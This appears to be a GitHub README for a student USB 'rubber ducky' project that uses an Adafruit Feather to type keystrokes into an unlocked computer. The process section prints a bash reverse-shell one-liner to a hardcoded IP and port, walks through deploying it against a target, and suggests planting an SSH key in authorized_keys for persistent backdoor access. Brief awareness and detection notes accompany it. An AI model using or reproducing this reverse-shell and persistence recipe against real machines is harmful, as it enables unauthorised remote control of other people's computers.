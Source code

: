 # RubberDucky
### Summary: 
Through the use of the netcat command our group was able to create a usb device that is capable of creating a backdoor
into another users computer which is on the same network. 

### Objective: 
To demonstrate the risk inhereted when a person leaves a computer unlocked and unattended in a public setting and how that risk can be reduced by locking said computer when leaving it unatended. 

### Hardware: 
Adafruit Feather 32u4 Bluefruit LE
More information can be found [here](https://www.adafruit.com/product/2829)

### Process: 
+ Change the ip address and port within the Arduino Sketch to the ip and port that you will be using on the host machine
```C
  // Create rsh
  Keyboard.print("bash -i >& /dev/tcp/192.101.10.120/1337 0>&1 & disown");
```
+ Flash the Adafruit device with the sketch found in veitchDuck
+ Run the attack.sh file on the host machine 
+ Plug the USB device into the target machine
+ Watch the target computer as a terminal is open, after the commmand has been entered and the terminal has closed you may remove the USB device and return the host machine
+ Congratulations you now have a rsh into another persons computer. 
+ Once here the extensions are endless, however it may be best to add an additional back door to the targets computer for rentry. There are many ways this can be done one is to add a public ssh key to the targets authorized_keys file
More on backdoors can be found [here](https://medium.com/@airman604/9-ways-to-backdoor-a-linux-box-f5f83bae5a3c)

### Security Measures: 
This Project exists to show how this type of attack can happen, in order to better protect yourself, you should never leave your computer unattended.
When this hack has been carried out with the attack can be detected by looking at a task manager, creating a top session and looking for any bash sessions that are using more CPU power than they should be using.
Currently a patch to this type of attack is being created. 

### Notes:
This device has been tested on Linux and Mac.
The authors will not be held responsible for any blackhat hacking.
